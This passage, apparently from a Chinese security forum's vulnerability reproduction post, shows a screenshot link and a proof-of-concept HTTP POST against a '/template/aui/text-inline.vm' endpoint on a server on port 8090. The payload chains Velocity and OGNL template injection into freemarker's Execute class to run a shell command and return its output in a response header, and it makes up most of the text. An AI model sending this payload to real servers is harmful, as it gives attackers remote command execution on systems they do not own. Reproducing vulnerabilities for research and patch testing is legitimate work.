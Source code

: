 [![](assets/1706059949-dfe20e4785882678de0ba4b89e3322e9.png)](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-c0387cf297967510f9cbb5a8e98dfebfe6ffee87.png)

# 复现过程

1.  网站首页如下图：

[![](assets/1706059949-53ae997af9a3db00dd8132393cfa888e.png)](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-0e5afe5c961024822eab9395419af637b82f0071.png)

1.  使用如下 POC 进行漏洞复现

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache. struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```
